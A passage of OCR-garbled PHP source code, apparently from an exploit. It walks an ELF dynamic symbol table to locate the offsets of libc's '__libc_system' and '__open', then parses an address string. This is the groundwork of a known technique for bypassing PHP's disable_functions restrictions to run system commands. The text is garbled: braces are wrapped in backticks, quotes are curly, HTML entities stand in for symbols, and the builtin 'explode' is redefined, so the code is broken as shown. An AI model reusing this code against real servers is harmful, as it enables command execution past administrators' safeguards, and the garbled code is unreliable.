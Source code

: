                 return $r_offset;

            `}`

        `}`

    `}`

    else `{`

        for($i = $dynsym_off; $i &lt; $dynsym_off + $dynsym_size; $i += $dynsym_entsize) `{`

            $name_off = unp(substr($bin, $i, 4));

            $name = ”;

            $j = $strtab_off + $name_off – 1;

            while($bin[++$j] != “\0”) `{`

                $name .= $bin[$j];

            `}`

            if($name == ‘__libc_system’) `{`

                $system_offset = unp(substr($bin, $i + 8, 8));

            `}`

            if($name == ‘__open’) `{`

                $open_offset = unp(substr($bin, $i + 8, 8));

            `}`

        `}`

        return array($system_offset, $open_offset);

    `}`

`}`

function explode($fck,$str)`{`

    $i=0;

    $addr = “”;

    while(isset($str[$i]))`{`

        if($str[$i]!=“-“)

        $addr .= $str[$i];

        else

        break;

        $i++;

    `}`

    return [$addr];
